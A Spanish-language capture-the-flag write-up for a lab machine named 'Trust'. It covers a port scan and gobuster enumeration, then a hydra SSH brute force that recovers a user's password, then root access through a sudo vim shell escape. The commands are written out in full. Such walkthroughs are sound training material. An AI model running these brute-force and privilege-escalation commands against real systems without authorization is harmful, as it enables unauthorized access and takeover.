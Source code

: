 # WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

<h2><b>Escaneo de Puertos</b></h2>
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:
<br>
<br>
<img src="https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf">
<br>
<br>
<h2><b>Enumeración de Directorios</b></h2>
<br>
Utilizamos gobuster para enumerar directorios en el puerto 80:
<br>
<br>
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
<br>
<br>
<img src="https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11">
<br>
<br>
<h2><b>Resultado</b></h2>
<br>
Encontramos un archivo interesante:
<br>
/secret.php
<br>
<br>
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.
<br>
<br>
![image](https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933)
<br>
<br>
<h2><b>Fuerza Bruta en SSH</b></h2>
<br>
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:
<br>
<br>
hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2
<br>
<br>
Credenciales encontradas:
<br>
Usuario: mario
<br>
Contraseña: chocolate
<br>
<br>
<h2><b>Acceso al Sistema</b></h2>
<br>
Usamos las credenciales obtenidas para iniciar sesión por SSH:
<br>
ssh mario@172.18.0.2
<br>
<br>
<h2><b>Escalada de Privilegios</b></h2>
<br>
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:
<br>
<br>
![image](https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500)
<br>
<br>
Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.
<br>
<br>
<h2><b>Comando para obtener acceso root:</b></h2>
<br>
sudo vim -c ':!/bin/sh'
<br>
Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.
<br>
![image](https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef)
<br>
<br>
¡Y eso es todo, ya somos root!






